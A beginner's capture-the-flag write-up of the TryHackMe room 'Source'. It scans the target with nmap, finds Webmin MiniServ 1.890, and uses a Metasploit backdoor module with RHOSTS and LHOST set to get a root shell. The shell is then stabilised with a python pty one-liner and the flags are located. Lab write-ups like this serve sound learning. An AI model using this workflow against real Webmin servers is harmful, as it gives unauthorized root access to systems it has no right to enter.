

# Source Writeup

<p align="center">
  
</p>
Source is a beginner-level room that can teach how to gather information, scan ports and directories and escalate privileges using various tools. This is my first writeup and certainly hope that it will be a motivation for me to keep on creating writeups for other rooms. 
<br><br>
Link to the room: <a href ='https://tryhackme.com/room/source'>https://tryhackme.com/room/source</a>
<br><br>
<br>

### Task 1: Scanning and Enumeration 

Now, we are going to use <b>Nmap</b> for port enumeration and scanning.
```
nmap -T4 -sV {ip_address} 
```
* -T4 is also known as aggressive scan mode and used to scan more quickly
* -sV allows the user to collect version information about the port
* <b>{ip_address}</b> can be found using <b>ifconfig</b> on Linux Terminal
<br>
<p align="center">
  
</p>
<br>

Informations from Nmap scan: 
* 2 open ports (port 22 and 10000)
* Port 22 is running SSH (OpenSSH 7.6p1)
* Port 10000 is running MiniServ 1.890 (Webmin httpd)

According to the room description, Webmin is a web-based system configuration tool.
<br>
<br>

<p align="center">
  
</p>
<br>

### Task 2: Exploitation 
When we try to access the web server using Firefox, it will give an error. Seems like the web server wants us to use SSL mode which is equivalent to HTTPS. So just change the URL to 𝗵𝘁𝘁𝗽𝘀://𝟭𝟬.𝟭𝟬.𝘅.𝘅:𝟭𝟬𝟬𝟬𝟬
<br>


<p align="center">
  
</p>

A login page?🤔My first thought is to bruteforce the login credentials but that will take some time. Maybe we can search for the web server's vulnerabilities that we can exploit.
<br>
```
searchsploit webmin
```
<br>
<p align="center">
  
</p>

From the searchsploit command, we can see a bunch of exploits that we can use and some of it can be done using Metasploit. So, let's start Metasploit.
<br>
```
msfconsole
```
<br>
<p align="center">
  
</p>
<br>

Search exploit modules related to WebMin
<p align="center">
  
</p>
<br> 

You can use any module any module that you want, I will use the module that can create backdoor to the web server.
<br>
<p align="center">
  
</p>
<br>

Now, we need to setup the payload ```RHOST```, ```LHOST``` and ```SSL``` (since the server uses SSL).

```
set RHOSTS 10.10.x.x
```
```
set LHOST your_ip_address
```
```
set SSL true
```
<br>

### Task 3: Gaining access
Execute the payload using ```run``` or ```exploit``` command.
<p align="center">
  
</p>
<br>
As you can see, we get the root access. We can use python to create a stable shell.
<br><br>

```
shell
```
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
<br>
<p align="center">
  
</p>
<br>
Usually user.txt will be in the home directory. So, I'm using find command to search the first flag 🚩.
<br>
<br>

```
find -name user.txt
```
🚩 user.txt 
<br>
THM{***********************}

Now, change to root directory to find second flag 🚩.
```
find -name root.txt
```
🚩 root.txt
<br>
THM{*******************}


